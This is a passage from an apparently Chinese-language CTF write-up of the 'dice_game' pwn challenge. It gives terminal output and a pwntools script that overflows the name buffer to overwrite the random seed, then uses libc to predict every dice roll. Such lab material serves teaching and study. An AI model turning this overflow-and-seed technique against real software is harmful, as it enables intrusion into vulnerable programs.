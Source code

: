 ```
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 4
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 82)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 87
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 5
You win.
Game 3/50
Give me the point(1~6): $ 1
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 87)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# 
```

我们可以看到通过遍历已经试出来前面两个值为2，5。

那就说明没问题，我们就直接载入libc来自动计算随机数，python脚本如下：

```
#coding:utf8

from pwn import *
from ctypes import *

process_name = './dice_game'
p = process(process_name)
# p = remote('111.198.29.45', 38348)
# elf = ELF(process_name)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(1)

payload = 'A' * 0x40 + p64(1)

p.sendlineafter('Welcome, let me know your name: ', payload)

for i in range(50):
	rand_value = libc.rand() % 6 + 1
	p.sendlineafter('Give me the point(1~6): ', str(rand_value))

p.interactive()
```
